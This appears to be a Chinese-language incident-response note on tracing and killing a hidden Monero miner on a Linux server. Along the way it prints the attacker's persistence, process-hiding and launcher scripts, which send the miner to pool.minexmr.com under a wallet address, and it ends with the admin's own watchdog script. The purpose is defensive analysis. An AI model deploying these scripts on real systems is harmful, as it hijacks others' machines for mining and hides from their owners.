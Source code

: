 # 查杀挖矿机进程md

[root@localhost]# top # 查看到md（占用cpu近100%）的PID 4444
[root@localhost]# cd /proc/4444
[root@localhost]# ll 
# 重点关注cmdline 和 exe,cwd 等
# cwd 指向 /lib/modules/.z (这个目录里放着挖矿的程序)
# exe指向 /lib/modules/.z/md (这个就是占用100%cpu的家伙)
[root@localhost]# cat cmdline 
# 这里看到如下字样，pool.minexmr.com 基本上跟挖矿有关了
#-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777

[root@localhost]# cd /lib/modules/.z/
[root@localhost .z]# ll
# ll结果如下，h32,h64,md,mdx都是二进制文件
# 我们可以从a, run, x 三个文件里看到些端倪
```
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```
[root@localhost .z]# cat a 
```
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
# cron.d 和 upd文件都没有找到，使用locate 命令，也没有搜索到，
# 使用kill 4444 之后，停几个小时，md会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）
# 怀疑存在父进程，或定时任务，但是使用crontab -l 查看没有定时任务（无语）
[root@localhost .z]# cat run
```
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
[root@localhost .z]# cat x
```
nohup ./a >>/dev/null &
```

# 无奈只能曲线救国，写了一个守护进程，一旦看到md运行就kill掉它
# 其中ps -ef 结果的第三列是父进程，为了追综始作俑者。
# 一般命令行运行的程序好像父进程是1？
```
#!/bin/sh
proc_name="^sh md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | cut -f3`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done  
```
